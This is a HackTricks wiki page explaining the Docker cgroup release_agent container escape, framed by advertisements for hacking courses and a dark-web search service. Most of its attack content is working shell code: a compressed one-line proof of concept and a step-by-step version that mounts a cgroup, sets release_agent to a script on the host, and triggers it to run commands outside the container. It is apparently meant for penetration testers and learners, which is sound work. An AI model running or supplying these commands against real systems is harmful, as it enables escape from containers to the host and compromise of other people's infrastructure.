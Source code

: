 # Docker release\_agent cgroups escape

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) is a **dark-web** fueled search engine that offers **free** functionalities to check if a company or its customers have been **compromised** by **stealer malwares**.

Their primary goal of WhiteIntel is to combat account takeovers and ransomware attacks resulting from information-stealing malware.

You can check their website and try their engine for **free** at:

{% embed url="https://whiteintel.io" %}

***

**For further details, refer to the** [**original blog post**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)**.** This is just a summary:

Original PoC:

```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

The proof of concept (PoC) demonstrates a method to exploit cgroups by creating a `release_agent` file and triggering its invocation to execute arbitrary commands on the container host. Here's a breakdown of the steps involved:

1. **Prepare the Environment:**
   * A directory `/tmp/cgrp` is created to serve as a mount point for the cgroup.
   * The RDMA cgroup controller is mounted to this directory. In case of absence of the RDMA controller, it's suggested to use the `memory` cgroup controller as an alternative.

```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

2. **Set Up the Child Cgroup:**
   * A child cgroup named "x" is created within the mounted cgroup directory.
   * Notifications are enabled for the "x" cgroup by writing 1 to its notify\_on\_release file.

```shell
echo 1 > /tmp/cgrp/x/notify_on_release
```

3. **Configure the Release Agent:**
   * The path of the container on the host is obtained from the /etc/mtab file.
   * The release\_agent file of the cgroup is then configured to execute a script named /cmd located at the acquired host path.

```shell
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

4. **Create and Configure the /cmd Script:**
   * The /cmd script is created inside the container and is configured to execute ps aux, redirecting the output to a file named /output in the container. The full path of /output on the host is specified.

```shell
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```

5. **Trigger the Attack:**
   * A process is initiated within the "x" child cgroup and is immediately terminated.
   * This triggers the `release_agent` (the /cmd script), which executes ps aux on the host and writes the output to /output within the container.

```shell
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) is a **dark-web** fueled search engine that offers **free** functionalities to check if a company or its customers have been **compromised** by **stealer malwares**.

Their primary goal of WhiteIntel is to combat account takeovers and ransomware attacks resulting from information-stealing malware.

You can check their website and try their engine for **free** at:

{% embed url="https://whiteintel.io" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
